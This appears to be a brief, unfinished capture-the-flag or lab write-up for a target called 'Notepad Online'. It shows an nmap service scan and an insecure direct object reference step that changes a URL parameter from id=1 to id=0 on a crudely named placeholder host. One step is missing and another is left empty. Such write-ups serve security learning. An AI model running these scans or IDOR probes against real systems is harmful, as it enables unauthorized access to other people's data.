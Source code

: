 # Notepad Online

![Image](https://github.com/user-attachments/assets/a4c9b3a4-b068-4b08-a266-b08ecc29349e)

1. Reconnisance
   nmap for scan
```
  nmap [IP ADDRESS] -sV -sC
```
2. Exploit
change the URL parameter id=1 to id=0.
this attack called  insecure direct object reference (IDOR).
```
http:/asshole.com/category?id=1
http:/asshole.com/category?id=0
```
4. 
